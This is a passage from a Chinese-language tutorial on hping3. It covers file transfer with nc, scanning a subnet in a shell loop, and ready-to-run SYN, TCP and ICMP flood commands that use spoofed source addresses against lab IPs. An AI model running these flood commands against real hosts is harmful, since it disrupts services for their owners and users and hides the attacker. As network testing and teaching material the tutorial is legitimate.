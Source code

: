 ### 3.6 文件传输

    发送端：
    hping3 -2 -p 1373 192.168.100.102 -d 100 -E test.txt
    -2 UDP模式 -p端口
    -d 数据大小 -E 文件名

![](https://image.3001.net/images/20200315/1584271722_5e6e116a759a6.png!small)

    接收端：
    nc -lp 1373 -u -w 5 > recv.txt && cat recv.txt
    -l 监听模式 -p 端口
    -w 超时时间 -u UDP模式

![](https://image.3001.net/images/20200315/1584271732_5e6e1174bc080.png!small)

### 3.7 主机发现

虽然 hping3 一次只能扫描一个 IP，但是我们可以结合 shell 脚本语言完成整个网段的扫描。下面使用 for 循环来实现：

for addr in $(seq 1 254);do hping3 10.211.55.$addr -c 1 –icmp & done

![](https://image.3001.net/images/20200315/1584271742_5e6e117e77ed2.png!small)

### 3.8 DDoS 攻击 - Syn Flood 攻击

    hping3 -c 1000 -d 120 -S -p 80 --flood --rand-source 192.168.100.1
    -c 指定连接数 -p 目标端口
    -d 指定数据部分的大小 -S 攻击类型是Syn flood
    --flood 以泛洪的方式攻击 -–rand-source 随机产生伪造源地址

![](https://image.3001.net/images/20200315/1584271749_5e6e118569d41.png!small)

\-–rand-source 随机产生伪造源地址

![](https://image.3001.net/images/20200315/1584271755_5e6e118b4731b.png!small)

### 3.9 DDoS 攻击 - TCP Flood 攻击

使用以下命令建立全连接：

    hping3 -SARUPF -p 80 –-flood –-rand-source 192.168.100.1

![](https://image.3001.net/images/20200315/1584271764_5e6e119461c15.png!small)

![](https://image.3001.net/images/20200315/1584271771_5e6e119b9b0ae.png!small)

### 3.10 DDoS 攻击 - ICMP Flood 攻击

    hping3 -q -n -d 200 --icmp --flood -a 11.11.11.11 192.168.100.1
    -q安静模式 -n不解析域名 -a指定伪造IP

![](https://image.3001.net/images/20200315/1584271781_5e6e11a5a2ba1.png!small)
